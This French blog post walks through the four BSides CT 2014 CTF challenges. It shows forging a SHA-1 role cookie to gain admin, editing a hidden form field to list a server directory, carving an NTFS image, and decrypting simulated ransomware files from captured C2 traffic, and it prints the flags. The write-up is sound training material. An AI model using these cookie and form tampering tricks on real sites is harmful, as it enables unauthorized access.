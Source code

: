 ```yaml
---
title: Solution du CTF BSides CT 2014
date: 2014-09-21 21:01:00
tags: [CTF]
---
```


Introduction
------------

Histoire de changer un peu, je me suis tourné vers le CTF de la conférence *BSides CT (Connecticut) 2014*.  

Les fichiers du CTF ayant été [mis en ligne sur GitHub](https://github.com/SkeyeLlama/BSides-CT-2014---CTF-Challenges), il est facile de mettre en place chez soit les 4 niveaux du challenge. Vous aurez juste besoin d'un serveur web avec PHP activé et de votre boîte à outils habituelle.  

Le challenge est assez simple. Il propose deux niveaux d'exploitation web, un niveau inforensique classique et un dernier niveau d'inforensique réseau avec de la crypto.  

Level 1
-------

Comme indiqué sur *GitHub* il faut avoir dézippé les fichiers dans un dossier *chal1* à la racine du serveur web.  

Une fois le navigateur lancé à la bonne adresse on trouve une page avec le titre *"Echo Tool v0.3"* qui demande de saisir soit le mot de passe de l'administrateur, soit *guest*.  

Vu que la simple pose des fichiers permet de mettre en place le challenge on se doute qu'il n'y aura pas de SQL dans l'affaire.  

Une fois que l'on a entré *"guest"* on est invité à entrer une chaîne de caractère, laquelle est juste re-affichée dans la page.  

J'ouvre l'extension *EditThisCookie* depuis *Chrome* et remarque que 3 cookies ont été définis :  

![EditThisCookie](/assets/img/editthiscookie.png)

Le cookie *role* contient un hash SHA-1 qui après recherche sur *DuckDuckGo* se révèle correspondre à *guest*.  

J'édite la valeur de ce cookie pour mettre le hash de *admin* mais je suis redirigé quand je rafraîchi la page.  

Je retente avec le hash de *administrator* et cette fois j'obtiens le flag *key{6e17f3d9348623234cbbd2dd4a900fc7}*.  

Level 2
-------

Ce second challenge est un ensemble de scripts PHP baptisé *PasteGin v1.4*.  

Un formulaire permet l'upload de fichiers mais affirme n'accepter que les fichiers avec extension *.txt*.  

L'autre formulaire permet de dresser la liste des fichiers qui ont été mis en ligne.  

Toutefois on ne voit pas immédiatement les formulaires car quand on affiche le code source HTML on trouve du Javascript obfusqué, la partie HTML est elle une coquille vide.  

C'était sans compter sur les outils de développement des navigateurs modernes : click-droit sur la page puis *"Inspecter l'élément"* permet de voir les deux formulaires qui ont été rajoutés au DOM par le javascript.  

Le second formulaire (utilisé pour lister les fichiers) attire mon attention :  

```html
<form action="list.php" method="post">
<input type="hidden" name="dir" value="./text/">
<input type="submit" name="submit" value="List Text Files">
</form>
```

Toujours via les outils de développement je modifie la valeur du champ caché *"dir"* pour mettre *"."*  

Je soumets le formulaire qui révèle alors la présence d'un fichier baptisé *topsecretkey*.  

Le fichier */chal2/topsecretkey* a le contenu *key{6fafa4aa597adac7974f11fabf2a5754}*  

Level 3
-------

On dispose d'un fichier *flash.img* qui a été compressé. Une fois décompressé on le passe à *file* qui nous indique :  

```
flash.img: DOS/MBR boot sector
```

Avec *ghex* (un éditeur hexadécimal) on voit les lettres *NTFS*. Une recherche sur les octets d'entête du fichier nous révèle qu'il s'agit en réalité d'une image disque *NTFS*.  

On monte le disque très facilement :  

```
mount -t ntfs -o ro flash.img /mnt/
```

Seulement on ne trouve qu'un fichier *IMG\_182891.png* que la morale m’empêche de poster ici (lol)  

Par conséquent j'ai préféré passer *photorec* sur l'image disque. Ce dernier retrouve des images supplémentaires : schémas de missiles et une image contenant le flag *key{3eee9d1cbd5b0062aa6b8e6398108072}*.  

Level 4
-------

On dispose d'une conversation email en PDF où un responsable demande à ce que les techniciens récupèrent ses fichiers qui ont été chiffrés par un logiciel rançonneur du type *CryptoLocker*.  

On dispose aussi d'une capture réseau au format *pcapng*. Une première lecture rapide de la capture montre des requêtes HTTP en clair et d'autres en SSL.  

J'ai décidé d'exporter la capture dans l'ancien format *pcap* (*tcpdump*) puis de la passer à la moulinette de [chaosreader](http://www.brendangregg.com/chaosreader.html) pour faciliter l'analyse.  

On remarque vite en naviguant parmi les requêtes HTTP que les infos intéressantes sont envoyées vers un script */Gh98zret.php*.  

La plupart des requêtes sont du type *Gh98zret.php?filename=Exhibit - A (1).gif&originalMD5=C699083BAF4FC584667DD8F25061C2F1* qui indique ici qu'un fichier gif a été chiffré.  

La requête et la réponse sont les suivantes :  

```
GET /Gh98zret.php?filename=Exhibit - A (1).gif&originalMD5=C699083BAF4FC584667DD8F25061C2F1 HTTP/1.1
Accept-Encoding: identity
Host: fatterpurse.com
Connection: close
User-Agent: CrypHI#948JJj930fjjfkdk

HTTP/1.1 200 OK
Date: Wed, 30 Jul 2014 15:38:13 GMT
Server: Apache
Vary: Accept-Encoding
Connection: close
Content-Type: text/html

<html>
...<title>Gh98zret - CrypHI#948JJj930fjjfkdk</title>
...<body>
ok
</body>
...</html>
```

Comme on disque des images chiffrés j'ai tenté de déchiffrer l'image via ce qui aurait pu être une clé dans le *User-Agent* et en testant divers algos. Mais je n'ai pas obtenu de résultats satisfaisants.  

Si on recherche les requêtes sans le mot clé *filename* on trouve d'autres informations :  

```
Gh98zret.php?crypt_init=1&sys=2
Gh98zret.php?crypt_init=2&sys=2
Gh98zret.php?crypt_init=3&sys=2
Gh98zret.php?crypt_init=4&sys=2
Gh98zret.php?drive_index=C&drive_label=Local Disk&sys=1
Gh98zret.php?drive_index=E&drive_label=SANDISK&sys=1
Gh98zret.php?loggedonuser=mhernandez&sys=1
Gh98zret.php?OS=Microsoft Windows XP [Version 5.1.2600]&sys=1
Gh98zret.php?&sys=1
Gh98zret.php?systemname=tpms_ceo_secret&sys=1
Gh98zret.php?victiminsideip=10.255.1.74&sys=1
Gh98zret.php?victimoutsideip=55.43.2.18&sys=1
```

Les requêtes *crypt\_init* se retrouvent dans les sessions 2020 à 2023 de *ChaosReader*. Les réponses correspondantes disposent dans le body de données encodées en base64 qui une fois décodées sont les suivantes :  

```
Crypt_Init - AES
Crypt_Init - CBC                                                                                                                                                                                               
IV - 00000000000000000000000000--- snip ---0000000000000000000000000000
Crypt_Init - CBC
637442eafc8399b6175621de7e94b511949e6226cc2cbf10dbe47bc46b2c1139
```

On dispose maintenant des informations nécessaires au déchiffrement des fichiers.  

J'ai commencé par le fichier texte fournit qui est le plus court :  

```python
$ python
Python 2.7.6 (default, Nov 21 2013, 15:55:38) [GCC] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from Crypto.Cipher import AES
>>> key = '637442eafc8399b6175621de7e94b511949e6226cc2cbf10dbe47bc46b2c1139'.decode("hex_codec")
>>> C = open("sergey-contact.txt").read()
>>> mode = AES.MODE_CBC
>>> IV = "\x00" * 16
>>> decryptor = AES.new(key, mode, IV=IV)
>>> M = decryptor.decrypt(C)
>>> print M
Sergey:

650-559-2746
```

Et voici un script pour les images (si vous aimez les lolcats) :  

```python
from Crypto.Cipher import AES
import glob

key = '637442eafc8399b6175621de7e94b511949e6226cc2cbf10dbe47bc46b2c1139'.decode("hex_codec")
mode = AES.MODE_CBC
IV = "\x00" * 16

images = glob.glob("*.gif")

for fname in images:
    print "Decrypting", fname
    fdin = open(fname)
    C = fdin.read()
    fdin.close()

    decryptor = AES.new(key, mode, IV=IV)
    M = decryptor.decrypt(C)

    fdout = open("dec_{0}".format(fname), "w")
    fdout.write(M)
    fdout.close()
```

Un petit CTF amusant :)

*Published September 21 2014 at 21:01*
